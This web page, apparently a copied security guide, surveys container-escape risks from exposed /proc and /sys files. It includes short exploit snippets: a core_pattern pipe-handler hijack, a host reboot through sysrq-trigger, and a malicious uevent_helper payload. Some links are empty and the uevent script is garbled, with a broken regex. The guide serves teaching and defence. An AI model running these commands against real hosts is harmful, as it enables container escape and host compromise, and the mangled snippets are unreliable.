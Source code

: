 Websec | Uw Cybersecurity  SpecialistThe exposure of `/proc` and `/sys` without proper namespace isolation introduces significant security risks, including attack surface enlargement and information disclosure. These directories contain sensitive files that, if misconfigured or accessed by an unauthorized user, can lead to container escape, host modification, or provide information aiding further attacks. For instance, incorrectly mounting `-v /proc:/host/proc` can bypass AppArmor protection due to its path-based nature, leaving `/host/proc` unprotected.

You can find further details of each potential vuln in .

## procfs Vulnerabilities

### `/proc/sys`

This directory permits access to modify kernel variables, usually via `sysctl(2)`, and contains several subdirectories of concern:

#### `/proc/sys/kernel/core_pattern`

Described in .

Allows defining a program to execute on core-file generation with the first 128 bytes as arguments. This can lead to code execution if the file begins with a pipe `|`.

Testing and Exploitation Example:

```
[ -w /proc/sys/kernel/core_pattern ] && echo Yes # Test write access
cd /proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern # Set custom handler
sleep 5 && ./crash & # Trigger handler
```

#### `/proc/sys/kernel/modprobe`

Detailed in .

Contains the path to the kernel module loader, invoked for loading kernel modules.

Checking Access Example:

```
ls -l $(cat /proc/sys/kernel/modprobe) # Check access to modprobe
```

#### `/proc/sys/vm/panic_on_oom`

Referenced in .

A global flag that controls whether the kernel panics or invokes the OOM killer when an OOM condition occurs.

#### `/proc/sys/fs`

As per , contains options and information about the file system.

Write access can enable various denial-of-service attacks against the host.

#### `/proc/sys/fs/binfmt_misc`

Allows registering interpreters for non-native binary formats based on their magic number.

Can lead to privilege escalation or root shell access if `/proc/sys/fs/binfmt_misc/register` is writable.

Relevant exploit and explanation:

In-depth tutorial: 

### Others in `/proc`

#### `/proc/config.gz`

May reveal the kernel configuration if `CONFIG_IKCONFIG_PROC` is enabled.

Useful for attackers to identify vulnerabilities in the running kernel.

#### `/proc/sysrq-trigger`

Allows invoking Sysrq commands, potentially causing immediate system reboots or other critical actions.

Rebooting Host Example:

```
echo b > /proc/sysrq-trigger # Reboots the host
```

#### `/proc/kmsg`

Exposes kernel ring buffer messages.

Can aid in kernel exploits, address leaks, and provide sensitive system information.

#### `/proc/kallsyms`

Lists kernel exported symbols and their addresses.

Essential for kernel exploit development, especially for overcoming KASLR.

Address information is restricted with `kptr_restrict` set to `1` or `2`.

Details in .

#### `/proc/[pid]/mem`

Interfaces with the kernel memory device `/dev/mem`.

Historically vulnerable to privilege escalation attacks.

More on .

#### `/proc/kcore`

Represents the system's physical memory in ELF core format.

Reading can leak host system and other containers' memory contents.

Large file size can lead to reading issues or software crashes.

Detailed usage in .

#### `/proc/kmem`

Alternate interface for `/dev/kmem`, representing kernel virtual memory.

Allows reading and writing, hence direct modification of kernel memory.

#### `/proc/mem`

Alternate interface for `/dev/mem`, representing physical memory.

Allows reading and writing, modification of all memory requires resolving virtual to physical addresses.

#### `/proc/sched_debug`

Returns process scheduling information, bypassing PID namespace protections.

Exposes process names, IDs, and cgroup identifiers.

#### `/proc/[pid]/mountinfo`

Provides information about mount points in the process's mount namespace.

Exposes the location of the container `rootfs` or image.

### `/sys` Vulnerabilities

#### `/sys/kernel/uevent_helper`

Used for handling kernel device `uevents`.

Writing to `/sys/kernel/uevent_helper` can execute arbitrary scripts upon `uevent` triggers.

Example for Exploitation: %%%bash

Creates a payload

echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

Finds host path from OverlayFS mount for container

host_path=$(sed -n 's/.\perdir=([^,]).*/\1/p' /etc/mtab)

Sets uevent_helper to malicious helper

echo "$host_path/evil-helper" > /sys/kernel/uevent_helper

Triggers a uevent

echo change > /sys/class/mem/null/uevent

Reads the output

cat /output %%%

#### `/sys/class/thermal`

Controls temperature settings, potentially causing DoS attacks or physical damage.

#### `/sys/kernel/vmcoreinfo`

Leaks kernel addresses, potentially compromising KASLR.

#### `/sys/kernel/security`

Houses `securityfs` interface, allowing configuration of Linux Security Modules like AppArmor.

Access might enable a container to disable its MAC system.

#### `/sys/firmware/efi/vars` and `/sys/firmware/efi/efivars`

Exposes interfaces for interacting with EFI variables in NVRAM.

Misconfiguration or exploitation can lead to bricked laptops or unbootable host machines.

#### `/sys/kernel/debug`

`debugfs` offers a "no rules" debugging interface to the kernel.

History of security issues due to its unrestricted nature.

Websec | Uw Cybersecurity  Specialist